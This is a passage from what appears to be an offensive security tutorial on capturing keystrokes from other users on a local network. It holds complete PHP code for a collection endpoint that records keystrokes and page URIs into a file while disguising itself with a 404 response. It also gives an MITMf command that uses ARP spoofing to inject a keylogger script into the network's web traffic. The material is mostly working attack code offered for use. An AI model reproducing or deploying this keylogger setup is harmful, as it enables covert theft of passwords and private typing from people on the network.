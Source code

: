 Please be sure to replace "https://example.com/keylogger.php" with the real URL of your PHP file.

**Create PHP Keylogger file - keylogger.php**

```php
header($_SERVER["SERVER_PROTOCOL"]." 404 Not Found", true, 404);
header('Access-Control-Allow-Methods: GET, REQUEST, OPTIONS');
header('Access-Control-Allow-Credentials: true');
header('Access-Control-Allow-Origin: *');
header('Access-Control-Allow-Headers: Content-Type, *');

$file = 'data.txt';
if(!file_exists($file))
{
    $fh = fopen($file, 'w');
}

function f($str)
{
    return trim(preg_replace("(\\\)","",htmlentities(strip_tags($str),ENT_QUOTES,'UTF-8')));
}

$altnKey=(int)$_GET['altnKey'];
$ctrlKey=(int)$_GET['ctrlKey'];
$userKey=f($_GET['userKey']);
$targKey=f($_GET['targKey']);
$userURI=f($_GET['URI']);

$string = $altnKey."|".$ctrlKey."|".$userKey."|".$targKey."|".$userURI."\n";
file_put_contents($file, $string, FILE_APPEND);
```

The "keylogger.php" must be hosted to a remote server and the full file URL must be specified in the "keylogger.js" file.

**Inject the JS file**

Now that we are ready with our file, we must inject the JavaScript to the network. To do it, we will use the below command.

```bash
cd /opt/mitmf/
sudo ./mitmf.py --inject --js-file ~/demo/keylogger.js --spoof --arp --gateway 192.168.1.1 -i wlp2s0
```

**Output**

![image-4](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/65e868eb3d3249c6b0d2995bbfcecb5c-4.png "Image-4")
